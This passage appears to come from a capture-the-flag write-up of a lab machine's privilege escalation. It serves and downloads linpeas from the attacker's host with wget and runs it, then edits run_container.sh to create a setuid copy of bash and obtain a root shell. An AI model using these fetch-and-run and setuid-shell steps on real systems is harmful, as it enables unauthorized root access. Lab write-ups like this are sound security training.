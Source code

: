 ```python
python -m http.server 80
```

![publisher15](https://github.com/user-attachments/assets/95d3a120-a6e1-4b7a-918c-3ed1bc225924)

```python
wget http://<ip>/linpeas.sh
chmod 700 linpeas.sh
./linpeas.sh
```

![publisher16](https://github.com/user-attachments/assets/634a5859-83c8-4d57-b2c5-fac8ac0ac7bc)

![publisher17](https://github.com/user-attachments/assets/64813709-4963-4389-98b6-d3057eb13cda)

**Identifying Privilege Escalation Path:**  
linpeas flagged an unusual file in `/opt`—`run_container.sh`. I examined it, and using the information from linpeas, I copied `/bin/bash` into the `/run/user/1000` directory, edited `run_container.sh` to spawn a privileged shell, and executed it:

![publisher18](https://github.com/user-attachments/assets/9cf5d429-1492-4dca-becb-d239a7ca540d)

```bash
cp /bin/bash /run/user/1000
./bash
cd /opt
nano run_container.sh
```

![publisher19](https://github.com/user-attachments/assets/3434d28a-1141-4de9-a6b8-df02e8ced945)

![publisher20](https://github.com/user-attachments/assets/8bcc77d8-b9f3-438c-a9a7-dad099f4e492)

**Escalating to Root:**  
Inside `run_container.sh`, I added a payload to create a root shell:

![publisher21](https://github.com/user-attachments/assets/741ae5ef-44b2-4497-9d4e-e68282338d90)

```bash
cp /bin/bash /tmp/bash
chmod +s /tmp/bash
/tmp/bash -p
```

![publisher22](https://github.com/user-attachments/assets/44eebca9-52da-40ca-919e-80bf1ab883be)

This gave me a root shell, and I was able to read the root flag:

```bash
cd /root
cat root.txt
```

![publisher23](https://github.com/user-attachments/assets/5b79d411-ba8d-429f-ab62-dedddaae7588)
